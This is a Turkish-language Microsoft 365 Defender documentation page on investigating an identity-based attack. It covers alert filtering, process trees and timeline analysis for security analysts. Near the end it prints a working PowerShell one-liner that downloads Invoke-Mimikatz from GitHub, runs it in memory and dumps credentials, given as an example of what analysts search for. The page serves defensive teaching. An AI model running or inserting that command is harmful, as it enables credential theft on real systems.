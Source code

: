 ```yaml
---
title: Kimlik tabanlı saldırı örneği
description: Kimlik tabanlı bir saldırının örnek analizinde adım adım ilerleyin.
keywords: olaylar, uyarılar, araştırma, bağıntı, saldırı, makineler, cihazlar, kullanıcılar, kimlikler, kimlik, posta kutusu, e-posta, 365, Microsoft, m365, olay yanıtı, siber saldırı
search.product: eADQiWindows 10XVcnh
ms.service: microsoft-365-security
ms.subservice: m365d
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
f1.keywords:
- NOCSH
ms.author: dansimp
author: dansimp
ms.localizationpriority: medium
manager: dansimp
audience: ITPro
ms.collection:
- m365-security
- m365solution-firstincident
- highpri
- tier1
ms.topic: conceptual
search.appverid:
- MOE150
- MET150
ms.openlocfilehash: ffdc0e6731ae610a1a2184c6b7b5523dd1a73afa
ms.sourcegitcommit: 12af9e8e3a6eaa090fda9e98ccb831dff65863a4
ms.translationtype: MT
ms.contentlocale: tr-TR
ms.lasthandoff: 09/27/2022
ms.locfileid: "68048890"
---
```

# <a name="example-of-an-identity-based-attack"></a>Kimlik tabanlı saldırı örneği

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]

**Şunlar için geçerlidir:**
- Microsoft 365 Defender

Kimlik için Microsoft Defender, kuruluşunuzdaki kimlikleri tehlikeye atmaya yönelik kötü amaçlı girişimleri algılamaya yardımcı olabilir. Kimlik için Defender Microsoft 365 Defender ile tümleştirildiğinden güvenlik analistleri, Şüpheli Netlogon ayrıcalık yükseltme girişimleri gibi Kimlik için Defender'dan gelen tehditleri görebilir.

## <a name="analyzing-the-attack-in-microsoft-defender-for-identity"></a>Kimlik için Microsoft Defender'de saldırıyı analiz etme

Microsoft 365 Defender analistlerin uyarıları olaylar sayfasının **Uyarılar** sekmesindeki algılama kaynağına göre filtrelemesine olanak tanır. Aşağıdaki örnekte algılama kaynağı **Kimlik için Defender** olarak filtrelenmiştir. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png" alt-text="Kimlik için Microsoft Defender'de algılama kaynağını filtreleme" lightbox="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png":::

**Şüpheli karma saldırı üst geçidi** uyarısı seçildiğinde, Microsoft Defender for Cloud Apps daha ayrıntılı bilgiler görüntüleyen bir sayfaya gider. Saldırının açıklamasını ve düzeltme önerilerini okumak için **Bu uyarı türü hakkında daha fazla bilgi edinin'i** seçerek her zaman bir uyarı veya [saldırı](/defender-for-identity/lateral-movement-alerts#suspected-overpass-the-hash-attack-kerberos-external-id-2002) hakkında daha fazla bilgi edinebilirsiniz.
 
:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-alert-example.png" alt-text="Şüpheli bir karmayı aşarak saldırı uyarısı" lightbox="../../media/first-incident-path-identity/first-incident-identity-alert-example.png"::: 

## <a name="investigating-the-same-attack-in-microsoft-defender-for-endpoint"></a>Uç Nokta için Microsoft Defender'de aynı saldırıyı araştırma

Alternatif olarak, bir analist uç nokta üzerindeki etkinlik hakkında daha fazla bilgi edinmek için Uç Nokta için Defender'ı kullanabilir. Olay kuyruğundan olayı seçin ve ardından **Uyarılar** sekmesini seçin. Buradan, algılama kaynağını da tanımlayabilirler. EDR olarak etiketlenmiş bir algılama kaynağı, Uç Nokta için Defender olan Uç Nokta Algılama ve Yanıt anlamına gelir. Analist buradan EDR tarafından algılanan bir uyarıyı seçer.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png" alt-text="Uç Nokta için Microsoft Defender portalında Uç Nokta Algılama ve Yanıt" lightbox="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png":::

Uyarı sayfasında etkilenen cihaz adı, kullanıcı adı, otomatik araştırmanın durumu ve uyarı ayrıntıları gibi ilgili çeşitli bilgiler görüntülenir. Uyarı hikayesi, işlem ağacının görsel bir gösterimini gösterir. İşlem ağacı, uyarıyla ilgili üst ve alt işlemlerin hiyerarşik bir gösterimidir.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png" alt-text="Uç Nokta için Microsoft Defender bir uyarı işlemi ağacı" lightbox="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png"::: 

Her işlem daha fazla ayrıntı görüntülemek için genişletilebilir. Analistin görebileceği ayrıntılar, kötü amaçlı bir betiğin parçası olarak girilen gerçek komutlar, giden bağlantı IP adresleri ve diğer yararlı bilgilerdir.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-process-details.png" alt-text="Uç Nokta için Microsoft Defender portalındaki işlem ayrıntıları" lightbox="../../media/first-incident-path-identity/first-incident-identity-process-details.png":::
 
**Zaman çizelgesinde görüntüle'yi** seçerek analist, güvenliğin tam zamanını belirlemek için daha da detaya gidebilir. 

Uç Nokta için Microsoft Defender birçok kötü amaçlı dosyayı ve betikleri algılayabilir. Ancak, giden bağlantılar, PowerShell ve komut satırı etkinliği için birçok meşru kullanım nedeniyle, bazı etkinlikler kötü amaçlı bir dosya veya etkinlik oluşturana kadar zararsız olarak kabul edilir. Bu nedenle, zaman çizelgesini kullanmak analistlerin uyarıyı çevresindeki etkinlikle bağlam içine alarak aksi takdirde ortak dosya sistemi ve kullanıcı etkinliği tarafından gizlenen saldırının özgün kaynağını veya zamanını belirlemesine yardımcı olur. 

Zaman çizelgesini kullanmak için bir analist uyarı algılama sırasında (kırmızı) başlar ve kötü amaçlı etkinliğe yol açan özgün etkinliğin gerçekte ne zaman başladığını belirlemek için geriye doğru aşağı kaydırır. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-start-time.png" alt-text="Uyarı algılama için analistin başlangıç zamanı" lightbox="../../media/first-incident-path-identity/first-incident-identity-start-time.png"::: 

Windows Update bağlantıları, Windows Güvenilen Yazılım etkinleştirme trafiği, Microsoft sitelerine yönelik diğer yaygın bağlantılar, üçüncü taraf İnternet etkinliği, Microsoft Endpoint Configuration Manager etkinliği ve diğer zararsız etkinlikler gibi ortak etkinlikleri şüpheli etkinliklerden anlamak ve ayırt etmek önemlidir. Ayırt etmenin bir yolu zaman çizelgesi filtrelerini kullanmaktır. Analistin görüntülemek istemediği bir şeyi filtrelerken belirli etkinlikleri vurgulayan birçok filtre vardır. 

Aşağıdaki görüntüde analist yalnızca ağ ve işlem olaylarını görüntülemek için filtre uygulamıştı. Bu filtre ölçütü analistin, Not Defteri'nin işlem ağacında da gördüğümüz bir IP adresiyle bağlantı kurduğu olayı çevreleyen ağ bağlantılarını ve işlemlerini görmesine olanak tanır. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-notepad.png" alt-text="Kötü amaçlı giden bağlantı oluşturmak için Not Defteri nasıl kullanıldı?" lightbox="../../media/first-incident-path-identity/first-incident-identity-notepad.png"::: 

Bu özel olayda, kötü amaçlı bir giden bağlantı oluşturmak için Not Defteri kullanılmıştır. Ancak saldırganlar genellikle iexplorer.exe kullanarak kötü amaçlı yük indirmek için bağlantılar kurar çünkü normalde iexplorer.exe işlemler normal web tarayıcısı etkinliği olarak kabul edilir.

Zaman çizelgesinde aranacak başka bir öğe de PowerShell'in giden bağlantılar için kullanması olabilir. Analist, kötü amaçlı bir dosyayı barındıran bir web sitesine giden bağlantı gibi `IEX (New-Object Net.Webclient)` komutlarla başarılı PowerShell bağlantıları arar. 

Aşağıdaki örnekte, Bir web sitesinden Mimikatz'ı indirmek ve yürütmek için PowerShell kullanılmıştır:

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```
Analist, yalnızca PowerShell ile oluşturulan olayları görüntülemek için arama çubuğuna anahtar sözcüğü yazarak anahtar sözcükleri hızla arayabilir. 

## <a name="next-step"></a>Sonraki adım

[Kimlik avı](first-incident-path-phishing.md) araştırma yoluna bakın.

## <a name="see-also"></a>Ayrıca bkz.

- [Olaylara genel bakış](incidents-overview.md)
- [Olayları yönetin](manage-incidents.md)
- [Olayları araştırın](investigate-incidents.md)
